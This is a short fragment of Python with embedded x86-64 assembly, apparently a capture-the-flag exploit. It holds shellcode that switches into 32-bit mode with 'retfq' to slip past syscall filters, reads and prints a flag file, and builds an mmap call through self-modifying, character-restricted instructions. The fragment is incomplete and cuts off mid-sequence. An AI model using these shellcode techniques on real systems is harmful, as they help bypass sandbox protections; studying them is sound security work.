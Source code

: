 ```python
shellcode_flag = '''
push 0x33
push 0x40404089
retfq
/*read(fp,buf,0x70)*/
mov rdi,rcx
mov rsi,rsp
mov rdx,0x70
xor rax,rax
syscall

/*write(1,buf,0x70)*/
mov rdi,1
mov rax,1
syscall
'''
shellcode_x86 = asm(shellcode_x86)
shellcode_flag = asm(shellcode_flag,arch = 'amd64',os = 'linux')
shellcode = ''
append = '''
push rdx
pop rdx
'''
# 0x40404040 为32位shellcode地址
shellcode_mmap = '''
/*mmap(0x40404040,0x7e,7,34,0,0)*/
push 0x40404040 /*set rdi*/
pop rdi

push 0x7e /*set rsi*/
pop rsi

push 0x40 /*set rdx*/
pop rax
xor al,0x47
push rax
pop rdx

push 0x40 /*set r8*/
pop rax
xor al,0x40
push rax
pop r8

push rax /*set r9*/
pop r9

/*syscall*/
push rbx
pop rax
push 0x5d
pop rcx
xor byte ptr[rax+0x31],cl
push 0x5f
pop rcx
xor byte ptr[rax+0x32],cl

push 0x22 /*set rcx*/
pop rcx

push 0x40/*set rax*/
pop rax
xor al,0x49
```